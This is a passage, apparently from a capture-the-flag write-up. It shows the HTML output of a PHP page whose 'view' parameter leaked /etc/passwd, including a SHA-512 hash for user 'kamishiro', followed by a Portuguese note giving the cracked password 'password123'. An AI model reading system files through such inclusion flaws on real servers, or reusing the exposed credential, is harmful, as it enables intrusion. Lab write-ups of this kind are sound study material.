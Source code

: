 ```html
	<link href="https://fonts.googleapis.com/css?family=IBM+Plex+Sans" rel="stylesheet"> 
	<link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
	<div class="menu">
	    <a href="index.php">Main Page</a>
	    <a href="index.php?view=flower.gif">NO</a>
	    <a href="index.php?view=flower.gif">YES</a>
	</div>
<p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
statd:x:110:65534::/var/lib/nfs:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
vagrant:x:1000:1000:vagrant,,,:/home/vagrant:/bin/bash
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
kamishiro:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:/home/kamishiro:/bin/bash
</p>    </body>
</html>
```

- Credenciais encontradas: `kamishiro`:`$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0`:`password123`
